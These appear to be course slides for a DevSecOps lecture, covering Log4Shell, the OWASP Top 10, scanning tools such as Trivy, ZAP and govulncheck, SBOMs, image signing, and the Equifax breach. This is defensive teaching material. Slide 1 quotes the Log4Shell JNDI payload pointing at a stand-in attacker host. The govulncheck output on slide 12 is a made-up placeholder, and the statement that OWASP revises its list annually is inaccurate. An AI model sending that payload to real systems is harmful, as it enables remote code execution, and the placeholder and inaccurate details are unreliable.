



# 📌 Lecture 9 — DevSecOps: Shift Security Left, Catch It Earlier

---

## 📍 Slide 1 – 💥 Log4Shell — Two Lines of Code, One Internet

* 🗓️ **December 9, 2021** — a researcher posts a proof-of-concept exploit for **Log4j 2** (CVE-2021-44228) on Twitter
* 🪲 The bug: a single line like `${jndi:ldap://attacker.com/x}` in *any* logged string triggered remote-code execution
* 🌍 **Hundreds of millions** of Java apps were vulnerable — including Minecraft chat, iCloud, AWS services, every other enterprise Java stack
* 🛠️ Companies that had **SBOMs** and **SCA in CI** knew their exposure within hours. Everyone else spent the week grep-ing
* 🎓 **Lesson:** Security isn't a phase at the end. It must be **in your pipeline, in your image, in your dependency tree** — visible by default

> 🤔 **Think:** When Log4Shell drops *next year* — and it will, in some other library — would you know within an hour which of your services are exposed?

---

## 📍 Slide 2 – 🎯 Learning Outcomes

| # | 🎓 Outcome |
|---|-----------|
| 1 | ✅ Explain "shift-left security" — and what's left of it for ops |
| 2 | ✅ Distinguish **SAST**, **DAST**, **SCA**, **IAST** |
| 3 | ✅ Cite the OWASP Top 10 (2021/2024) by category |
| 4 | ✅ Run **Trivy** against the QuickNotes image and read its output |
| 5 | ✅ Run **OWASP ZAP** as a DAST against the running QuickNotes API |
| 6 | ✅ Generate an **SBOM** and use it to answer "am I affected by CVE-X?" |

---

## 📍 Slide 3 – 🗺️ Lecture Overview



* 📍 Slides 1-5 — Why DevSecOps; the OWASP categories
* 📍 Slides 6-10 — Tooling: SAST, DAST, SCA, SBOM
* 📍 Slides 11-14 — Pipeline gates; signing; secret scanning
* 📍 Slides 15-18 — Real incidents, lab, takeaways

---

## 📍 Slide 4 – 📜 The Path to DevSecOps

* 🏛️ **2009-2014** — DevOps establishes "shift left" for QA and ops
* 🛡️ **2014** — Shannon Lietz at Intuit coins **"DevSecOps"** — security as code, in the pipeline
* 📚 **2017** — OWASP publishes the modern **Application Security Verification Standard (ASVS)**
* 📦 **2018** — Aqua Security open-sources **Trivy** — the easy-to-use image scanner that wins adoption
* 🔐 **2021** — Log4Shell. **SBOMs go from niche to mandatory** (US Executive Order 14028)
* 🚦 **2024** — every modern CI pipeline assumes SAST + SCA + DAST as default gates

> 💬 *"DevSecOps is the integration of security at every step of development — not a separate review at the end."* — Shannon Lietz

---

## 📍 Slide 5 – 🛡️ OWASP Top 10 (2021) — Cheat Sheet

| # | Category | Means |
|---|----------|-------|
| A01 | **Broken Access Control** | User accesses resources they shouldn't |
| A02 | **Cryptographic Failures** | Weak crypto, leaked secrets, MD5/SHA1 |
| A03 | **Injection** (SQLi, command injection, XSS-ish) | Untrusted data executed |
| A04 | **Insecure Design** | The architecture itself is unsafe |
| A05 | **Security Misconfiguration** | Default passwords, S3 public, debug=on |
| A06 | **Vulnerable & Outdated Components** | Log4Shell-class |
| A07 | **Identification & Authentication Failures** | Weak auth, JWT misuse |
| A08 | **Software & Data Integrity Failures** | Untrusted updates (tj-actions!) |
| A09 | **Security Logging & Monitoring Failures** | You didn't see the attack |
| A10 | **Server-Side Request Forgery (SSRF)** | App fetches attacker-controlled URLs |

* 📚 Annually-updated by OWASP; the 2024 list refines A04 + A09 but keeps the same 10 categories
* 🧪 Lab 9's ZAP scan exercises A01-A03 + A05 against QuickNotes

---

## 📍 Slide 6 – 🔬 SAST vs DAST vs SCA vs IAST

| Tool class | What it analyzes | When in pipeline | Tools |
|------------|------------------|------------------|-------|
| **SAST** (Static App Sec Testing) | Source code | On every PR | Semgrep, CodeQL, Snyk Code |
| **DAST** (Dynamic) | Running application | After deploy to staging | OWASP ZAP, Burp Suite |
| **SCA** (Software Composition) | Dependency tree (libs, CVEs, licenses) | On every PR | Trivy, Snyk, Dependabot, govulncheck |
| **IAST** (Interactive) | Instrumented runtime | In integration tests | Contrast, Seeker |
| **Secret scanning** | Git diff for keys/passwords | On every PR / push | gitleaks, trufflehog, GitHub Secret Scanning |
| **Container scan** | Image layers for CVEs + misconfig | After build | Trivy, Grype, Snyk |
| **IaC scan** | Terraform / K8s / Dockerfile config | On every PR | tfsec, checkov, Trivy config |

* 🎯 **Layered defense:** no single tool catches everything. Combine 2-3, accept some overlap

---

## 📍 Slide 7 – 🧪 Trivy: Image Scanning in 5 Seconds

```bash
# scan an OCI image for CVEs + misconfig + secrets
$ trivy image quicknotes:v0.1.0

# scan a filesystem (your repo, your Dockerfile, .env files)
$ trivy fs --severity HIGH,CRITICAL .

# scan IaC (Dockerfile, K8s manifests, Terraform)
$ trivy config .

# produce an SBOM in CycloneDX format
$ trivy sbom -o sbom.cdx.json image quicknotes:v0.1.0
```

| Trivy detects | How |
|--------------|-----|
| OS package CVEs | Cross-references Alpine/Ubuntu vulnerability DBs |
| Language deps (Go, npm, Python, Java, …) | Reads lockfiles + module metadata |
| Misconfig | Dockerfile lint, K8s sec-baseline, Terraform |
| Secrets | Regex + entropy on text files |
| Licenses | Compliance checks for OSS licenses |

* 🆓 Open-source (Apache 2.0), maintained by Aqua Security
* ⚡ Caches vuln DB locally → 5-second rescans

---

## 📍 Slide 8 – 🌊 OWASP ZAP: DAST Against a Running App



* 🤖 **ZAP** (Zed Attack Proxy, OWASP project) is the go-to free DAST tool
* 🕷️ Two modes:
  * **Spider + Passive Scan** — fast, won't break the app
  * **Active Scan** — sends real payloads, can break things; ONLY against test envs
* 📈 In Lab 9, you'll run a **baseline scan** against QuickNotes and triage the warnings (most are about missing security headers — real findings)

```bash
docker run --rm -t \
  -v "$PWD:/zap/wrk:rw" \
  --network host \
  ghcr.io/zaproxy/zaproxy:stable \
  zap-baseline.py -t http://localhost:8080 -r baseline.html
```

---

## 📍 Slide 9 – 📦 SBOM: The "Software Bill of Materials"

> 💡 **SBOM:** a machine-readable list of every component (and version) inside your software. Two formats dominate: **SPDX** (Linux Foundation) and **CycloneDX** (OWASP)

```bash
# generate from a container image
$ trivy sbom -o quicknotes.cdx.json --format cyclonedx image quicknotes:v0.1.0

# or with Anchore Syft
$ syft quicknotes:v0.1.0 -o cyclonedx-json > quicknotes.cdx.json
```

* 🇺🇸 **US Executive Order 14028** (May 2021) requires federal software vendors to produce SBOMs
* 🛡️ When a new CVE drops, an SBOM answers "**am I affected**?" in seconds:
```bash
$ grype sbom:quicknotes.cdx.json
```
* 🎯 Generate an SBOM for **every release artifact** — store next to the image, sign both

---

## 📍 Slide 10 – ✍️ Image Signing with Cosign

```bash
# sign with a keyless OIDC identity (no key files to lose)
$ cosign sign --yes ghcr.io/inno-devops-labs/quicknotes:v0.1.0

# verify on the deployer side
$ cosign verify \
    --certificate-identity-regexp '^https://github.com/inno-devops-labs/.+$' \
    --certificate-oidc-issuer https://token.actions.githubusercontent.com \
    ghcr.io/inno-devops-labs/quicknotes:v0.1.0
```

* 🪪 **Sigstore / cosign** (CNCF, GA 2022) makes signing as easy as `git push`
* 🌐 Uses the public **Rekor** transparency log — every signature is publicly auditable
* 🎁 Lab 9 Bonus task can wire cosign into your Lab 3 CI pipeline

---

## 📍 Slide 11 – 🚦 Pipeline Gates: What to Block vs Warn

| Tool | Block PR if… | Warn only if… |
|------|--------------|---------------|
| SCA (Trivy) | New CRITICAL CVE | new HIGH (review) |
| SAST | New finding marked "critical" | informational |
| Secret scanning | Any match (always block; rotate the secret) | n/a |
| DAST (ZAP) | New HIGH issue from baseline scan | medium / low |
| License check | GPL in a proprietary product | LGPL (depends) |

* 🚫 Don't block on the *first* finding — most existing repos start with hundreds. **Baseline first, then gate on new**
* 🪞 Mark accepted findings with `.trivyignore`, suppression annotations, etc. — and **document why** in the same PR

> 💡 The discipline is documenting **why** you accepted a finding — so future-you (or auditors) can re-evaluate

---

## 📍 Slide 12 – 🐹 Language-Native SCA: govulncheck

For Go specifically, `govulncheck` is *better than* generic SCA because it analyzes **call graphs**:

```bash
$ go install golang.org/x/vuln/cmd/govulncheck@latest
$ cd app/
$ govulncheck ./...

Vulnerability #1: GO-2024-3105
    Sometimes Foo() in net/http misuses Bar
  Module: net/http
  Found in: stdlib
  Fixed in: go1.24.5
  Example traces found:
    main.go:42 → http.Serve → ...

# Trivy would flag the module; govulncheck confirms YOUR code actually calls the vulnerable function
```

* 🎯 **Reachability:** Trivy says "you import a vulnerable module"; govulncheck says "your code path actually reaches the bug"
* 📉 Reachability cuts the noise floor — you fix what actually matters

---

## 📍 Slide 13 – 🔐 Secret Scanning

```bash
# scan git history for secrets
$ gitleaks detect --no-banner --redact
$ trufflehog git file:///path/to/repo
```

* 🤖 GitHub does **secret scanning by default** on public repos (every push checked against ~200 provider patterns)
* 🚨 When a token leaks, GitHub *also* notifies the issuing provider (AWS, Stripe, Slack, …) — they may auto-revoke it
* 🔁 **Rotate first, clean history second** — Lecture 2 already covered this story

---

## 📍 Slide 14 – ❌ DevSecOps Antipatterns

| 🔥 Antipattern | ✅ Better |
|----------------|----------|
| Run scans only "before release" | On every PR + every push |
| Block PRs on every finding from day 1 | Baseline existing findings; gate on *new* ones |
| Run as root inside containers | `USER nonroot` + drop caps (Lecture 6) |
| Pin to `:latest` | Pin to digest; refresh on schedule |
| Email PDF reports to "security@" | Findings as PR comments, dashboards in Grafana |
| Use a public test DB with real PII | Synthetic data only; redact at the source |
| Trust a tag pin "forever" | Re-scan + re-pin on schedule (Dependabot/Renovate) |

---

## 📍 Slide 15 – 📜 Real Story: Equifax (2017)

* 🗓️ **March 2017** — Apache Struts releases a patch for CVE-2017-5638 (remote code execution)
* 🪪 Equifax has Struts in a customer-facing portal. Their patch process: a manual checklist run by a single person
* 💥 The person responsible for that asset is **on leave**. The patch isn't applied
* 🕵️ **May 13, 2017** — attackers exploit it. Stay inside for **76 days**
* 🪦 **September 2017** — Equifax discloses: ~**147 million** people's data exfiltrated
* 💵 **$1.4 billion** in costs and settlements
* 🎓 **Lessons:** SCA in CI would have flagged it. Mandatory patch SLAs would have caught it. Monitoring egress would have detected the exfiltration. Three different DevSecOps layers, all absent

---

## 📍 Slide 16 – 🧪 Lab 9 Preview: Scan QuickNotes

* 🔍 **Task 1 (6 pts):** Run Trivy against the QuickNotes image — produce SBOM, list HIGH+CRITICAL CVEs, document remediation or acceptance with reasoning
* 🦓 **Task 2 (4 pts):** Run `zap-baseline.py` against QuickNotes; triage every finding (most will be missing security headers); fix at least one with code change
* 🎁 **Bonus (2 pts):** Add `govulncheck` to your Lab 3 CI pipeline; demonstrate that it catches a deliberately-introduced vulnerable dep
* 📜 Deliverable: `submissions/lab9.md` — scan output snippets, SBOM diff, written triage decisions

---

## 📍 Slide 17 – 🧠 Key Takeaways

1. 🛡️ **Security is a pipeline gate, not a phase** — every PR runs SAST + SCA; every deploy runs DAST
2. 🧪 **Four scan types: SAST (code), DAST (running app), SCA (deps), Secret (text)** — combine for layered defense
3. 📦 **SBOM = your inventory** — without it, you can't answer "am I affected?"
4. ✍️ **Sign your images with Cosign + OIDC** — kill the "is this artifact tampered with?" question
5. 🎯 **Block on *new* findings, baseline the rest** — perfection from day 1 stops merges
6. 🐹 **Reachability matters** — govulncheck-class tools cut noise vs generic SCA

---

## 📍 Slide 18 – 🚀 What's Next + 📚 Resources

* 📍 **Next lecture:** Cloud Computing — ship QuickNotes to a real cloud
* 🧪 **Lab 9:** Trivy on the image, ZAP against the running app, Bonus: govulncheck in CI
* 📖 **Read this week:**
  * 📕 *The DevSecOps Manifesto* — Shannon Lietz et al. ([devsecops.org](https://www.devsecops.org/))
  * 📗 [OWASP Top 10 — 2021](https://owasp.org/Top10/) (and 2024 refresh)
  * 📘 [Sigstore / Cosign docs](https://docs.sigstore.dev/)
  * 📝 [Equifax 2017 breach — US GAO report](https://www.gao.gov/assets/gao-18-559.pdf)
  * 📝 [Log4Shell timeline (Sonatype)](https://blog.sonatype.com/log4shell-vulnerability-the-first-30-days)
* 🛠️ **Tools this week:** Trivy 0.59.x, OWASP ZAP 2.16.x, Syft 1.x, govulncheck



> 🎯 **Remember:** Every working DevSecOps program starts with "**we already had the data**". The discipline isn't writing new code — it's piping the scan output somewhere a human will see it, and acting on what's there.
